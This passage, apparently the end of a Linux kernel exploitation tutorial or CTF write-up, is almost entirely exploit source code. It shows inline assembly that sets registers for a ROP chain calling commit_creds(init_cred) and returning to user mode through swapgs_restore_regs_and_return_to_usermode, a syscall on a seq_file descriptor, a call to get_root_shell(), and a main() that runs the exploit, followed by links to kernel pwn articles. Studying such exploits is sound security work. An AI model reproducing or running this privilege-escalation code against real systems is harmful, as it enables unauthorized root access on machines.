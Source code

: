 ```c

    asm volatile(
        "mov r15, 0xbeefdead;" // ROP
        "mov r14, pop_rdi_ret;"
        "mov r13, init_cred;" // add rsp, 0x40 ; ret
        "mov r12, commit_creds;"
        "mov rbp, swapgs_restore_regs_and_return_to_usermode;" // iret(q)
        "mov rbx, 0x999999999;"
        "mov r11, 0x114514;"
        "mov r10, 0x666666666;"
        "mov r9, 0x1919114514;"
        "mov r8, 0xabcd1919810;"
        "xor rax, rax;"
        "mov rcx, 0x666666;"
        "mov rdx, 8;"
        "mov rsi, rsp;"
        "mov rdi, seq_fd;"
        "syscall"
    );

    get_root_shell();
}

int main(int argc, char ** argv, char ** envp)
{
    exploitation();
    return 0;
}
```

## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/

https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
